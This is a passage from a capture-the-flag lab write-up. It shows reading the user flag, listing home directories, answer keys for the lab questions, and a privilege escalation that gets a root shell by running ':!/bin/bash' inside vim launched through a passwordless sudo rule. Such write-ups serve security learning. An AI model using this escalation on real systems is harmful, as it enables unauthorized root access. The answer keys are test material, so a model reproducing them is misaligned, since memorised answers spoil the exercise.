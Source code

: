 The file *user.txt* seems interesting.

```bash
$ cat user.txt

G00d j0b, keep up!
```

Check if there are another user in the home directory.

```bash
$ cd /home
$ pwd
/home
$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 aug 17  2019 .
drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
```

I think that I don't have anything to do with user sunbath, so I backed to user mitch to do more exploring.

> <u>Answer Keys</u>
>
> 7. What's the user flag?: **G00d j0b, keep up!**
> 8. Is there any other user in the home directory? What's its name?: **sunbath**



------

##### 4. Privilege Escalation

I took some to get more information about the machine to find the way to break into root, this is what I found.

```bash
$ uname -a
Linux Machine 4.15.0-58-generic #64~16.04.1-Ubuntu SMP Wed Aug 7 14:09:34 UTC 2019 i686 i686 i686 GNU/Linux
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

So I used vim to escalate myself into root. (Oh god, that's the nightmare...)
P.S. Don't forget to type /bin/bash to get into full shell.

```bash
$ /bin/bash
mitch@Machine$ sudo vim shell.txt
```

```vim
:!/bin/bash
~
~
```
